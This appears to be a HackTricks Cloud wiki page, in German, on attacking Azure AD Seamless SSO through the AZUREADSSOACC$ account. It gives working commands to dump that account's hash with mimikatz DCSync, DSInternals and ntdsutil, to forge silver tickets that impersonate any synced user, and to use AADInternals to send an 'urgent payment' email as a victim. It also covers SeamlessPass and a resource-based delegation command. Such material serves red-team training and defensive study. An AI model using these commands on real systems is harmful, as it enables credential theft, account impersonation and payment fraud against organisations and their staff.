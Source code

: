 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Grundinformationen

[Aus den Dokumenten:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) **meldet Benutzer automatisch an, wenn sie sich auf ihren Unternehmensgeräten** befinden, die mit Ihrem Unternehmensnetzwerk verbunden sind. Wenn aktiviert, **müssen Benutzer ihre Passwörter nicht eingeben, um sich bei Azure AD anzumelden**, und normalerweise auch nicht ihre Benutzernamen. Diese Funktion bietet Ihren Benutzern einfachen Zugriff auf Ihre cloudbasierten Anwendungen, ohne dass zusätzliche lokale Komponenten erforderlich sind.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Im Grunde meldet Azure AD Seamless SSO **Benutzer an,** wenn sie sich **auf einem lokal verbundenen PC** befinden.

Es wird sowohl von [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) als auch von [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) unterstützt.

Desktop-SSO verwendet **Kerberos** zur Authentifizierung. Wenn konfiguriert, erstellt Azure AD Connect ein **Computer-Konto namens AZUREADSSOACC`$`** im lokalen AD. Das Passwort des `AZUREADSSOACC$`-Kontos wird **im Klartext an Azure AD** während der Konfiguration gesendet.

Die **Kerberos-Tickets** sind **verschlüsselt** mit dem **NTHash (MD4)** des Passworts, und Azure AD verwendet das gesendete Passwort, um die Tickets zu entschlüsseln.

**Azure AD** stellt einen **Endpunkt** (https://autologon.microsoftazuread-sso.com) zur Verfügung, der Kerberos **Tickets** akzeptiert. Der Browser des domain-verbundenen Geräts leitet die Tickets an diesen Endpunkt für SSO weiter.

### On-prem -> cloud

Das **Passwort** des Benutzers **`AZUREADSSOACC$` ändert sich niemals**. Daher könnte ein Domänenadministrator den **Hash dieses Kontos** kompromittieren und ihn dann verwenden, um **silberne Tickets** zu erstellen, um sich mit **jedem synchronisierten lokalen Benutzer** bei Azure zu verbinden:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Mit dem Hash können Sie jetzt **silberne Tickets generieren**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Um das Silver Ticket zu nutzen, sollten die folgenden Schritte ausgeführt werden:

1. **Browser starten:** Mozilla Firefox sollte gestartet werden.
2. **Browser konfigurieren:**
* Navigieren Sie zu **`about:config`**.
* Setzen Sie die Präferenz für [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) auf die angegebenen [Werte](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Zugriff auf die Webanwendung:**
* Besuchen Sie eine Webanwendung, die mit der AAD-Domain der Organisation integriert ist. Ein gängiges Beispiel ist [Office 365](https://portal.office.com/).
4. **Authentifizierungsprozess:**
* Geben Sie auf dem Anmeldebildschirm den Benutzernamen ein und lassen Sie das Passwortfeld leer.
* Um fortzufahren, drücken Sie entweder TAB oder ENTER.

{% hint style="success" %}
Dies umgeht MFA nicht, wenn es aktiviert ist
{% endhint %}

#### Option 2 ohne dcsync - SeamlessPass

Es ist auch möglich, diesen Angriff **ohne einen dcsync-Angriff** durchzuführen, um stealthier zu sein, wie [in diesem Blogbeitrag erklärt](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Dafür benötigen Sie nur eines der folgenden:

* **Ein kompromittiertes TGT eines Benutzers:** Selbst wenn Sie keines haben, aber der Benutzer kompromittiert wurde, können Sie eines mit dem Fake-TGT-Delegationstrick erhalten, der in vielen Tools wie [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) und [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9) implementiert ist.
* **Golden Ticket**: Wenn Sie den KRBTGT-Schlüssel haben, können Sie das TGT erstellen, das Sie für den angegriffenen Benutzer benötigen.
* **NTLM-Hash oder AES-Schlüssel eines kompromittierten Benutzers:** SeamlessPass kommuniziert mit dem Domänencontroller mit diesen Informationen, um das TGT zu generieren.
* **AZUREADSSOACC$-Konto NTLM-Hash oder AES-Schlüssel:** Mit diesen Informationen und der Sicherheitskennung (SID) des Benutzers, den Sie angreifen möchten, ist es möglich, ein Serviceticket zu erstellen und sich mit der Cloud zu authentifizieren (wie im vorherigen Verfahren durchgeführt).

Schließlich ist es mit dem TGT möglich, das Tool [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) zu verwenden mit:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Weitere Informationen zur Konfiguration von Firefox für die nahtlose SSO-Funktion finden Sie [**in diesem Blogbeitrag**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Erstellen von Kerberos-Tickets für Cloud-nur-Benutzer~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Wenn die Active Directory-Administratoren Zugriff auf Azure AD Connect haben, können sie **SID für jeden Cloud-Benutzer festlegen**. Auf diese Weise können Kerberos **Tickets** **auch für Cloud-nur-Benutzer erstellt werden**. Die einzige Voraussetzung ist, dass die SID eine gültige [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) ist.

{% hint style="danger" %}
Das Ändern der SID von Cloud-nur-Admin-Benutzern ist jetzt **von Microsoft blockiert**.\
Für Informationen siehe [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud über ressourcenbasierte eingeschränkte Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Jeder, der Computer-Konten (`AZUREADSSOACC$`) im Container oder in der OU, in der sich dieses Konto befindet, verwalten kann, kann **eine ressourcenbasierte eingeschränkte Delegation über das Konto konfigurieren und darauf zugreifen**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referenzen

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Ich bin in deiner Cloud und lese die E-Mails aller - Hacking Azure AD über Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
